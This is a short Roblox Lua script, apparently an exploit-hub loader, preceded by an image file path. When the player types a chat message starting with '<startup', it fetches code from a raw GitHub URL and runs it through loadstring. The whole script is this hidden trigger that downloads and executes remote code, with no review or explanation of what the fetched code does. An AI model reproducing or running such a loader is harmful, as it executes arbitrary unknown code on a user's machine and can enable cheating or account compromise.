 game.Players.LocalPlayer.Chatted:connect(function(msg)

if string.sub(msg, 1, 8) == "<startup" then
loadstring(game:HttpGet("https://raw.githubusercontent.com/Rokurro/Scripts/main/VEX...009...LOADER.md", true))()
end
end)
